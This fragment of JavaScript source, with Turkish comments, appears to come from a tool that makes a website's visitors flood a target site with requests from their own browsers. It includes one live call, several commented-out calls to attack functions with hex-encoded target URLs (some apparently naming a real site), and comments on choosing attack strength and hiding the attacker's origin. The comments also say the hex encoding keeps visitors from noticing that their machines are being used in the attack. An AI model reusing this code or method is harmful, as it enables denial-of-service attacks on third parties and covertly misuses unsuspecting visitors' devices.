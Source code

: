 // şimdilik kullanım dışı, image file atak
  //ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','base64'); // base64 file
  //ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','file'); // direk file
  // note: istekler karşılıksız olsada atak yapmaktadır.!!!
  // şimdilik kullanım dışı, image file atak.
 
 

  // # Kullanıma uygun örnekler

  // 1-
  //tek('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür.


  // 2-
  //cok('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür. tek() fonksiyonundan farklı karşı tarafa çok daha yüksek byte ile saldırır, fakat bu yavaşlık yaratabiir. tek() kullanımı önerilen örnektir.

  // 3- önerilen yöntem. karşı tarafta Saldıran sadece ziyaretçi ip adresi olarak görünür.
  // örnek: site adresi = https://www.yoursitename.com/index.php?q=
  // bu adresi str to hex yapınız 68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d
  istek_img('68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d','1');
  // bu saldırı yönteminde site adresiniz asla gözükmez. artı olarka strtohex kullandığınız için ziyaretçi sayfa kaynağını görüntülesede kendi bilgisayarının saldırı amaçlı kullanıldığını fark edemez.

  // # Kullanıma uygun örnekler
